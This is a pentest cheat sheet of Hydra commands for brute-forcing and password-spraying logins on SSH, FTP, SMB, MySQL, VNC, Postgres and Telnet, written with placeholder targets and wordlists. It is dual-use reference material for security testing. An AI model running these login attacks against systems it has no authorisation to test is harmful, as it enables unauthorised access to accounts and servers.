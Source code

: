 # Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - ssh - file "login:pass" format - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -C <file_login_pass> <ip> ssh 
```

## Hydra - ftp - 21 
#protocol/ftp #port/21 #plateform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - smb - 445
#protocol/smb #port/445 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - mysql - 3306
#protocol/mysql #port/3306 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql 
```

## Hydra - vnc - 5900
#protocol/vnc #port/5900 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - postgres - 5432
#protocol/postgres #port/5432 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - telnet - 23
#protocol/telnet #port/23 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

= userlist: users.txt
= passlist: pass.txt
